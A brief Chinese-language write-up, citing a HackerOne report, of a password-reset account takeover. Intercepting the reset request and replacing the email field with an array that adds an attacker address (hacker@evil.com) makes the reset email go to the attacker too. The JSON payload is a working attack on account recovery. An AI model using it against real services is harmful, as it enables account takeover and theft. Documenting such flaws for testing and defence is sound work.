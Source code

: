 忘记密码, 输入受害者的电子邮件并通过 Burp Suite 拦截提交请求

将请求包中的 `"user[email]":"user@example.com"` 格式化并添加一个邮箱

```
 "user" {
     "email" [
              "user@example.com",
              "hacker@evil.com"
       ]
 },
```

此时攻击者的邮箱可以接收到目标用户的密码重置邮件

---

Refrences

- [获取重置密码邮件](https://hackerone.com/reports/2293343)